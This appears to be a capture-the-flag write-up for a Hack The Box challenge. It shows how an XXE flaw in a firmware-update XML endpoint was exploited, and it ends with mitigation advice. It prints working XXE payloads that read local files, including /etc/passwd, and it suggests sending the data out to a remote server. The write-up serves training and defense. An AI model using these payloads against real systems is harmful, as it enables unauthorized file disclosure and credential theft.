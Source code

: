 # Jailbreak Challenge

## Overview

In this challenge, we successfully exploited an **XML External Entity (XXE)** vulnerability to access a restricted file. The website uses XML for firmware updates, and by modifying the XML payload, we were able to include an external entity that pointed to the flag file.

---

## Original XML Payload

The original XML payload submitted to the website:

```xml
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

---

## Modified XML Payload with XXE

To exploit the XXE vulnerability, we injected an external entity definition to access the `flag.txt` file:

```xml
<!DOCTYPE email [
  <!ENTITY flag SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&flag;</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

---

## Response

The server processed the injected XML and replaced `&flag;` with the contents of `flag.txt`, returning the flag in the response.

### Flag Output

```
HTB{example_flag_contents_here}
```

---

## Enhancing the Payload

To make the attack more versatile and subtle, we can:

1. Use additional entities to chain file reads for enumerating the system.
2. Redirect the external entity to a remote server to exfiltrate data.

### Example Enhanced Payload

```xml
<!DOCTYPE email [
  <!ENTITY file SYSTEM "file:///etc/passwd">
  <!ENTITY flag SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&flag;</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>&file;</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

This payload retrieves the `/etc/passwd` file and embeds its content in the `<Description>` field.

---

## Mitigation Strategies

To prevent XXE attacks, the following measures should be implemented:

1. **Disable DTD Processing**: Configure the XML parser to disable external entity processing.
2. **Input Validation**: Validate and sanitize user inputs.
3. **Use Secure Libraries**: Employ libraries and parsers with secure default configurations.
4. **Audit Dependencies**: Regularly update and audit XML libraries.

---

## Skills Gained

1. Understanding and exploiting **XXE vulnerabilities**.
2. Crafting XML payloads for information disclosure and enumeration.
3. Implementing secure configurations to mitigate XXE attacks.
